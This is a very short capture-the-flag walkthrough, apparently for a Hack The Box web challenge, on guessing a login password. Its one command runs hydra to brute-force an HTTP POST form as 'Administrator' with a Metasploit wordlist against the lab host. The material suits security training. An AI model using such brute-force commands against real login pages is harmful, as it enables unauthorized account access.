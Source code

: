 # Objective:<br/>
Your target is not very good with computers. Try and guess their password to see if they may be hiding anything!

# Walkthrough
**Command:**<br/>
hydra -s 31936 -l Administrator -P /usr/share/metasploit-framework/data/wordlists/password.lst docker.hackthebox.eu http-post-form "/:password=^PASS^:Invalid password!" 

![](request.png)
![](response.png)
